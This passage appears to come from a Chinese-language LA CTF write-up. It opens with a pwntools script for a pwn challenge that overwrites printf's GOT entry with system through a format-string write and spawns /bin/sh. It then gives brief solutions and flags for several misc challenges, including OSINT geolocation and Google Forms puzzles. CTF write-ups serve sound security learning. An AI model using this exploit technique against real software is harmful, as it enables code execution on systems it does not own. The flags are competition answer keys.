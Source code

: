 ```python
printf_got = codebase + 0x4020

fmt = fmtstr_split(7, {printf_got: system}, write_size="short")
conn.sendlineafter(b"> ", b"12")
conn.sendlineafter(b"topping: ", b"A"*8+ fmt[1])
conn.sendlineafter(b"> ", b"12")
conn.sendlineafter(b"topping: ", fmt[0])
conn.sendlineafter(b"> ", b"12")
conn.sendlineafter(b"topping: ", b"/bin/sh\x00")

conn.interactive()
```

`lactf{golf_balls_taste_great_2tscx63xm3ndvycw}`

## Misc
### infinite loop
![upload_456881111a36cff130f2d7130474993d](https://github.com/i-m-down-QQ/writeups/assets/67849251/98513054-6dd7-43dd-9a02-a72b4c9adc1b)

直接從前端搜尋
`lactf{l34k1ng_4h3_f04mz_s3cr3tz}`

### mixed signals
[NATO phonetic](https://en.wikipedia.org/wiki/NATO_phonetic_alphabet)

只聽第一個字母就好

### one by one

[ref](https://theconfuzedsourcecode.wordpress.com/2019/12/15/programmatically-access-your-complete-google-forms-skeleton/)

工人智慧 + ctrl-f 從結尾的 122 id -> 119 id -> 115 id -> 111 id -> ... 找到對應的 char

`lactf{1_by_0n3_by3_un0_*,"g1'}`

### closed

找`Shorebirds nesting on rocks STATE PARK california`

![image](https://github.com/i-m-down-QQ/writeups/assets/67849251/445268ca-95b9-45f6-9eb8-cc6a85243213)

[翻了一下美國護鳥協會，海岸邊主要保護 Shorebrid 都在這](https://www.montereyaudubon.org/shorebirds)

近岸邊的都放大看一遍

![image](https://github.com/i-m-down-QQ/writeups/assets/67849251/3a6e766d-722b-400b-bc1c-43b76e26c64e)

`(36.515520, -121.949320)`
![image](https://github.com/i-m-down-QQ/writeups/assets/67849251/2fb10c26-f842-4c5e-ac12-230a340edcff)

`lactf{36.516,-121.949}`
